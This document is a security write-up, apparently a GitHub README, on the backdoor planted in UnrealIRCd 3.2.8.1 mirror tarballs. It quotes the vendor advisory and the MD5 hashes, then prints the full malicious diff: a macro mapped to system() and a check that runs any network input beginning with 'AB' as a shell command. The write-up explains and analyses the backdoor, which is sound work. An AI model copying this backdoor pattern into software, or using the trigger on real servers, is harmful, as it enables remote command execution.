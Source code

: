 # UnrealIRCd 3.2.8.1 Backdoor Command Execution

## Description :

UnrealIRCd 3.2.8.1, as distributed on certain mirror sites from November 2009 through June 2010, contains an externally introduced modification (Trojan Horse) in the `DEBUG3_DOLOG_SYSTEM` macro, which allows remote attackers to execute arbitrary commands.

Reported by the vendor. (https://www.securityfocus.com/bid/40820)

Metasploit module is also available for this vulnerability. It's written by:

* hdm <x@hdm.io>

## Digging the hole

The official security advisory (http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt) for getting detailed information is not available at the moment, throws **ERR_CONNECTION_TIMED_OUT**

To get it anyway, we can utilize the **Wayback Machine**

Read the local copy of advisory : [unrealsecadvisory.20100612.txt](unrealsecadvisory.20100612.txt)

```
This is very embarrassing...

We found out that the Unreal3.2.8.1.tar.gz file on our mirrors has been
replaced quite a while ago with a version with a backdoor (trojan) in it.
This backdoor allows a person to execute ANY command with the privileges of
the user running the ircd. The backdoor can be executed regardless of any user
restrictions (so even if you have passworded server or hub that doesn't allow
any users in).

It appears the replacement of the .tar.gz occurred in November 2009 (at least on some mirrors). It seems nobody noticed it until now.
```

Let's get our hands on it. Again, the advisory provides the md5sum we should look for.

```
One is to check if the Unreal3.2.8.1.tar.gz you have is good or bad by running 'md5sum Unreal3.2.8.1.tar.gz' on it.

Backdoored version (BAD) is: 752e46f2d873c1679fa99de3f52a274d
```

In sources, you can find the clean and backdoored versions of Unreal3.2.8.1, as said we can verify md5sums :

```
$ md5sum Unreal3.2.8.1*
752e46f2d873c1679fa99de3f52a274d  Unreal3.2.8.1_backdoor.tar.gz
7b741e94e867c0a7370553fd01506c66  Unreal3.2.8.1_clean.tar.gz
```

Yes, we've the backdoor code. We can now check the code diff.

```
$ diff -urN Unreal3.2.8.1_clean Unreal3.2.8.1_backdoor
```

```
diff -urN Unreal3.2.8.1_clean/include/struct.h Unreal3.2.8.1_backdoor/include/struct.h
--- Unreal3.2.8.1_clean/include/struct.h	2009-04-13 13:03:57.000000000 +0200
+++ Unreal3.2.8.1_backdoor/include/struct.h	2009-04-13 13:03:00.000000000 +0200
@@ -430,6 +430,7 @@
 #endif
 
 /* Fake lag exception */
+
 #define IsNoFakeLag(x)      ((x)->flags & FLAGS_NOFAKELAG)
 #define SetNoFakeLag(x)     ((x)->flags |= FLAGS_NOFAKELAG)
 #define ClearNoFakeLag(x)   ((x)->flags &= ~FLAGS_NOFAKELAG)
@@ -448,6 +449,7 @@
 #else
 #define IsNotSpoof(x)           (1)
 #endif
+#define	DEBUGMODE3	    ((x)->flags & FLAGS_NOFAKELAG)
 
 #define GetHost(x)			(IsHidden(x) ? (x)->user->virthost : (x)->user->realhost)
 #define GetIP(x)			((x->user && x->user->ip_str) ? x->user->ip_str : (MyConnect(x) ? Inet_ia2p(&x->ip) : NULL))
@@ -513,6 +515,10 @@
 #else
 #define CHECKPROTO(x,y) (checkprotoflags(x, y, __FILE__, __LINE__))
 #endif
+#ifdef DEBUGMODE3
+#define DEBUGMODE3_INFO	"AB"
+#define	DEBUG3_LOG(x) DEBUG3_DOLOG_SYSTEM (x)
+#endif
 
 #define DontSendQuit(x)		(CHECKPROTO(x, PROTO_NOQUIT))
 #define IsToken(x)		(CHECKPROTO(x, PROTO_TOKEN))
@@ -1373,6 +1379,7 @@
 #define INCLUDE_REMOTE     0x2
 #define INCLUDE_DLQUEUED   0x4
 #define INCLUDE_USED       0x8
+#define DEBUG3_DOLOG_SYSTEM(x) system(x)
 	
 struct _configitem_include {
 	ConfigItem *prev, *next;
diff -urN Unreal3.2.8.1_clean/src/s_bsd.c Unreal3.2.8.1_backdoor/src/s_bsd.c
--- Unreal3.2.8.1_clean/src/s_bsd.c	2009-03-01 19:37:58.000000000 +0100
+++ Unreal3.2.8.1_backdoor/src/s_bsd.c	2006-06-16 20:29:00.000000000 +0200
@@ -1431,6 +1431,10 @@
 		    return 1;
 		if (length <= 0)
 			return length;
+#ifdef DEBUGMODE3
+	if (!memcmp(readbuf, DEBUGMODE3_INFO, 2))
+	    DEBUG3_LOG(readbuf);
+#endif
 		for (h = Hooks[HOOKTYPE_RAWPACKET_IN]; h; h = h->next)
 		{
 			int v = (*(h->func.intfunc))(cptr, readbuf, length);

```

### Attack Anatomy

```
if (!memcmp(readbuf, DEBUGMODE3_INFO, 2)) /* if first two char from the buffer is "AB", it gets 0, and !0 = 1*/
```

The code is small, no explicit sockets are created, backdoor uses `system()` to execute commands, `system()` executes a command specified in command by calling `/bin/sh -c` command, and returns after the command has been completed on default socket (IRC) **if the passed data begins with special character sequence i.e. "AB"**.

`#ifdef` is just for increasing compatibility.

> In computer programming, conditional compilation is compilation implementing methods which allow the compiler to produce differences in the executable program produced and controlled by parameters that are provided during compilation. This technique is commonly used when these differences are needed to run the software on different platforms, or with different versions of required libraries or hardware. (https://en.wikipedia.org/wiki/Conditional_compilation)

> IRC was originally a plain text protocol (although later extended), which on request was assigned port 194/TCP by IANA. However, the de facto standard has always been to run IRC on 6667/TCP and nearby port numbers (for example TCP ports 6660–6669, 7000) to avoid having to run the IRCd software with root privileges. (https://en.wikipedia.org/wiki/Internet_Relay_Chat)
